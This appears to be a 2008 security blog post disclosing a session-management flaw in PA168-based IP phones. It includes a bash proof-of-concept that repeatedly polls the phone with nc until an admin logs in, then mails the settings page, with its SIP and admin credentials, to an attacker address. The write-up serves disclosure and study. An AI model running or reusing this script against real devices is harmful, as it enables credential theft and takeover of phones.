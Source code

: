 ```yaml
---
title: Holes in Embedded Devices - Binary state session management
author: adrian-pastor
date: Tue, 29 Jan 2008 09:52:22 GMT
template: this/views/post.jade
---
```


This type of vulnerability is similar to IP address-based session management holes which has been discussed in my [previous post](/blog/holes-in-embedded-devices-ip-based-session-management). It is similar in the sense that the web browser of the admin user who is currently logged into the vulnerable device doesn't send any auth data such as session IDs or passwords. However, this vulnerability is more serious as illustrated by the algorithm implemented by the session management mechanism of the vulnerable device:

    if (submitted username and submitted password) == (credentials on device config)
    then
    	do activate admin session until session times out
    

    The implications are fatal: the device blindly trusts administrative HTTP requests, while the administrative session is regarded as active. In other words, if the attacker submitted an administrative request to the target device while an admin user was logged in (admin session would be active), the device would happily accept such request as it has no means to differentiate between the requests coming from the legitimate admin and those coming from the attacker!

    In this case, the attacker doesn't need to share the same source IP address with the legitimate admin user, but rather the bad guy can launch an automated attack like the one illustrated in my previous post IP address-based session management from any source IP address. The only requirement is that the submitted HTTP request is well-crafted so it looks exactly like a legitimate request.

    A real example includes IP phones from several brands that are based on the PA168 chipset. Several popular vendors in Asia such as ATCOM and SOYO ship firmwares such as version 1.42 and 1.54 that is susceptible to this vulnerability. Since the attacker can now send the malicious HTTP request from any IP address, these IP phones could be attacked remotely, provided that their web interface was Internet-facing.

    The following proof-of-concept script was published with ProCheckUp [PR06-14](http://www.procheckup.com/Vulner_PR0614.php) advisory. Such script repeatedly submits a request to the target IP phone which returns the full configuration settings as soon as an admin user logs into the web interface of the target phone. The returned configuration settings include sensitive data such as SIP gateway, SIP credentials and the credentials required to manage the IP phone:

    #!/bin/bash

    host="192.168.10.1";
    attackers_email="attacker@evil-domain.foo"
    req="POST /g HTTP/1.0\r\nContent-length: 13\r\n\r\nback=++Back++\r\n\r\n";

    while true
    do
        res=`echo -en $req | nc -nv $host 80`;
        if echo $res | grep superpassword # if this gets returned, then we got the settings page with all SIP account and IP phone creds
        then
            echo "GOT IT!"
            echo $res > "admin-settings-page"
            echo $res | mail $attackers_email -s "PA168 IP Phone admin's settings page"
            exit 1
        else
            echo "bad luck"
        fi
        sleep 5
    done
